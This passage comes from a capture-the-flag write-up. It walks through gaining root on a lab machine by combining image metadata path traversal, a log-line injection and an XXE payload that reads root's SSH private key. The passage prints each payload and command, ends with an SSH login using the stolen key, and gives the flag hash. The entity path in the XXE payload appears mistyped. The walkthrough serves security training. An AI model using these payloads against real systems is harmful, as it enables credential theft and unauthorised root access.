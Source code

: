 ```
- Add the 'Artist' property to it by ```exiftool```

![](./IMG/81.png)
- Doulble Check the metadata, and the Aritist value is ```../tmp/gg```
```
exiftool exploit.jpg
```

![](./IMG/82.png)
- Creating the malicious XML file
```
# vim exploit.xml
```
- The goal of this xxe attack is access the ssh private key
- Content as follow: 

```
<!DOCTYPE foo [
    <!ELEMENT FOO ANY>
    <!ENTITY XXE SYSTEM "file://roo/.ssh/id_rsa" >]>
<credits>
    <author>gg</author>
    <image>
        <uri>/../../../../../../tmp/exploit.jpg</uri>
        <views>1</views>
        <foo>&xxe;</foo>
    </image>
    <totalviews>2</totalviews>
</credits>
```

![](./IMG/83.png)

![](./IMG/84.png)
- The payload in log file as follow : 
```
echo '200||a||a||/../../../../../../tmp/exploit.jpg' >> redpanda.log
```
- Payload explain: since the jpg file is locate in tmp, but it will find jpg in ```/static``` so if need to change the directory to ```/tmp```, then I can find the exploit jpg.

![](./IMG/85.png)
- The result : I got the private key of ssh 

![](./IMG/86.png)
- Copy the private key content to attacker local file and change the permission to execute.
```
chmod 600 le_key.txt
```

![](./IMG/87.png)
- SSH to victim with private key, we get root user.
```
ssh root@10.10.11.170 -i le_key.txt
```

![](./IMG/88.png)
- The flag as follow:
```
f17ad3072ffbfcc5cb3e2acdde4e9b04
```

![](./IMG/89.png)

```